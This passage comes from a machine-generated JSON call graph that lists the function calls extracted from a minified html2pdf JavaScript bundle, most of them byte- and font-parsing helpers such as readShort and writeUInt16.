"static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "read"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readLongLong"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readLongLong"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readByte"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "read"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lengthOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readShort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "glyphFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "glyphsFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "raw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": 